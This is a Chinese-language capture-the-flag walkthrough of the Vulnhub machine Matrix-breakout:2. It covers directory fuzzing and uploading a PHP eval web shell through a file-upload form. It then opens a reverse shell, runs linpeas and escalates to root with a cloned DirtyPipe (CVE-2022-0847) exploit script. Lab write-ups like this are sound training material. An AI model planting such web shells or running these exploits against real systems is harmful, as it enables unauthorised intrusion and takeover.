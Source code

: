 ```yaml
---

title: Vulnhub--Matrix-breakout:2
categories: [渗透靶场, Vulnhub]

---
```


## **渗透复现**

1. web站点文件上传实现上马
2. 反弹shell后进行常规的信息收集（suid，sudo，用户信息）
3. 在无可用信息情况下，利用linux本地提权脚本linpeas进行本地漏洞的检测
4. 内核漏洞脏牛提权

## **知识扩展**

1. linux本地漏洞检测脚本工具linpeas

## 靶机地址

https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/

## 主机发现

（1）攻击机

```py
192.168.186.135
```

（2）目标靶机

```py
192.168.186.165
```

## 信息收集

### 端口扫描

![image-20240828101731798](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281017924.png)

### 目录扫描

![image-20240828101746679](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281017790.png)

### 目录爆破

```python
#常规目录扫描没有发现有用信息，进行FUZZ目录爆破，针对常见的文件后缀
ffuf -u http://192.168.229.136/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c -ic -e .txt,.zip,.php,html
```

![image-20240828101801962](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281018079.png)

### 目录访问

（1）80端口

![image-20240828101814132](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281018190.png)

（2）81端口

![image-20240828101822769](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281018818.png)

（3）源码查看

![image-20240828101829178](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281018222.png)

（4）rotbots.txt查看

![image-20240828101834930](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281018971.png)

（5）javascript查看

![image-20240828101841723](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281018766.png)

（6）graffiti.txt查看

![image-20240828101848572](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281018614.png)

（7）graffiti.php查看

![image-20240828101854163](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281018208.png)

## 实施攻击

（1）POST框，进行简单测试，内容输入有回显

![image-20240828101900472](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281019516.png)

（2）BP抓包，发现是文件上传功能点

![image-20240828101905703](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281019759.png)

![image-20240828101912763](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281019820.png)

（3）尝试上马，修改后缀为PHP

```python
<?php @eval($_POST['123']);?>
#进行URl编码
%3c%3fphp+%40eval(%24_POST%5b%27123%27%5d)%3b%3f%3e
```

![image-20240828101920394](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281019441.png)

（4）放包，访问，上传成功

![image-20240828101927344](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281019387.png)

（5）蚁剑连接

![image-20240828101936939](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281019992.png)

（6）反弹shell

![image-20240828101942728](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281019798.png)

## 提权

（1）信息收集，收集SUID文件和用户信息，并无可用信息，尝试另法提权

![image-20240828101955411](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281019511.png)

![image-20240828102006008](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281020111.png)

（2）linpeas脚本进行本地信息收集

```py
#下载sh文件
https://github.com/peass-ng/PEASS-ng/releases
```

![image-20240828102018932](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281020989.png)

（3）将脚本复制到kali，并且kali启动http服务

![image-20240828102031860](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281020927.png)

（4）靶机获取sh文件

![image-20240828102040417](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281020511.png)

（5）赋予脚本权限，运行脚本,等脚本跑完后回到上面，即可找到本地可利用漏洞

```py
chmod +x linpeas.sh
./linpeas.sh
```

![image-20240828102050346](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281020432.png)

（6）搜索[CVE-2022-0847] DirtyPipe的提权操作，提权成功

```py
git clone https://github.com/imfiver/CVE-2022-0847.git
cd CVE-2022-0847
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
```

![image-20240828102057903](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281020999.png)